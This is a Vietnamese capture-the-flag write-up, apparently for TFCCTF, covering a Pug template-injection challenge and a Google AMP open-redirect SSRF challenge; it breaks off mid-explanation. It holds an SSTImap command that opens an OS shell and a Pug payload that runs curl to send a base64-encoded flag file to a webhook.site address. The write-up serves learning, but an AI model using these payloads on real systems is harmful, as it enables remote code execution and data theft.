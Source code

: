 # GREETINGS (WARM UP)

![image](https://hackmd.io/_uploads/SyNyshpYC.png)
Nhìn sơ qua thì challenge chỉ có 1 route này để nhập tên của mình và hiện lên màn hình. Theo kinh nghiệm của mình thì các challenge như vậy sẽ liên quan tới SSTI hoặc là command injection với câu lệnh echo. 

Mình có test thử SSTI trước. Mình thử các engine phổ biến như JinJa2, Velocity, Spring... nhưng mà không có được nên mình thử chạy tool SSTImap. 
Command: `python3 sstimap.py -u http://challs.tfcctf.com:31924/result?username=perryto --os-shell`

![image](https://hackmd.io/_uploads/r1Bw336Y0.png)
Thành công. Thì ra đây là engine của Pug (lạ quá không biết nữa). Test payload `#{7 * 7}` thì được thật. 
![image](https://hackmd.io/_uploads/S1MLhhTKR.png)

Chạy tool thì nó sẽ tự tạo shell cho mình rồi nên không cần gọi reverse shell từ web nữa
Flag: `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`

P/s: Có vẻ như là dùng cat luôn flag.txt thì sẽ không hiện cho nên chuyển hướng flag sang web hook với command
`#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl https://webhook.site/8609a08e-60f0-46fa-bac9-71187e40ff48/?c=$(cat flag.txt | base64 | tr -d "\n")')}()}`

# SURFING (EASY)

![image](https://hackmd.io/_uploads/ryutT26FA.png)
Easy nhưng không easy chút nào cả. Web sẽ nhận input của mình là 1 url nhưng chỉ nhận url bắt đầu với `http://google.com/`, và nó sẽ lấy 1 file png từ url đó. 

![image](https://hackmd.io/_uploads/rkRyAh6FA.png)
Trên html của web cũng có phần note sau. Vậy là challenge này sẽ là fetch đến localhost và login với admin để lấy flag nhưng mà url bắt đầu với `http://google.com/` thì làm sao mà fetch sang localhost được. 

Ban đầu mình nghĩ chall là command injection, đoán nó sử dụng lệnh curl để fetch nhưng test thì không được. 

Sau khi giải kết thúc mình mới biết đến cái gọi là [Google Accelerated Mobile Pages (AMP) open redirect](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trusted-domain-hidden-danger-deceptive-url-redirections-in-email-phishing-attacks/)

> Google AMP là 1 open-source web component framework được sử dụng để khiến webpage load nhanh hơn trên các thiết bị di động. Nhưng bây giờ nó lại bị lợi dụng để phishing bằng các redirect. Khi người dùng click vào link thì họ sẽ bị redirect sang phishing page như ví dụ bên dưới là repl.co
![image](https://hackmd.io/_uploads/r1EIepTKC.png)

Vậy ở đây mình sẽ host 1 web mà redirect nó sang localhost port 8000 xem admin panel của challenge như thế nào. (Thử redirect nó luôn sang localhost kiểu `http://google.com/amp/s/http://localhost/...` hay `http://google.com/amp/s/localhost/...` sẽ lỗi nên host web rồi redirect nó sang localhost vậy)
